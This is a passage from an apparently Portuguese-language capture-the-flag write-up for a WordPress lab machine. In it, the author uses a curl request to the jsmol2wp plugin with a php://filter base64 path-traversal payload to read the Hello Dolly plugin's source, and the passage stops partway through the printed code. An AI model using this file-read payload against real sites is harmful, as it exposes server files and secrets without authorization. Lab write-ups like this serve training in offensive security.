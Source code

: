 Tinha algumas recomendações de hardening, mas a primeira dizia para verificar o código fonte do plugin hello, dolly.
Após pesquisar sobre o plugin, verifiquei que é um plugin que exibe quotes da música "Hello, Dolly" do artista Louis Armstrong. Achei o código fonte no github do plugin e ele me pareceu muito simples e inofensivo, deixando muito pouco "espaço" para uma vulnerabilidade nativa. 

Sendo assim, procurei o arquivo hello.php dentro da pasta de plugins. Primeiro só usei o repeater do burp suite pra acelerar o processo de tentativa/erro. Em seguida, usei o curl para fazer a requisição e já decodificar o base64.

```bash
┌──(kali㉿kali)-[~/smol]
└─$ curl -s "http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/convert.base64-encode/resource=../../hello.php" | base64 -d 
<?php
/**
 * @package Hello_Dolly
 * @version 1.7.2
 */
/*
Plugin Name: Hello Dolly
Plugin URI: http://wordpress.org/plugins/hello-dolly/
Description: This is not just a plugin, it symbolizes the hope and enthusiasm of an entire generation summed up in two words sung most famously by Louis Armstrong: Hello, Dolly. When activated you will randomly see a lyric from <cite>Hello, Dolly</cite> in the upper right of your admin screen on every page.
Author: Matt Mullenweg
Version: 1.7.2
Author URI: http://ma.tt/
*/

function hello_dolly_get_lyric() {
        /** These are the lyrics to Hello Dolly */
        $lyrics = "Hello, Dolly
Well, hello, Dolly
It's so nice to have you back where you belong
You're lookin' swell, Dolly
I can tell, Dolly
You're still glowin', you're still crowin'
You're still goin' strong
I feel the room swayin'
While the band's playin'
One of our old favorite songs from way back when
So, take her wrap, fellas
Dolly, never go away again
Hello, Dolly
Well, hello, Dolly
It's so nice to have you back where you belong
You're lookin' swell, Dolly
I can tell, Dolly
You're still glowin', you're still crowin'
You're still goin' strong
I feel the room swayin'
While the band's playin'
One of our old favorite songs from way back when
So, golly, gee, fellas
Have a little faith in me, fellas
Dolly, never go away
Promise, you'll never go away
Dolly'll never go away again";

        // Here we split it into lines.
        $lyrics = explode( "\n", $lyrics );

        // And then randomly choose a line.
```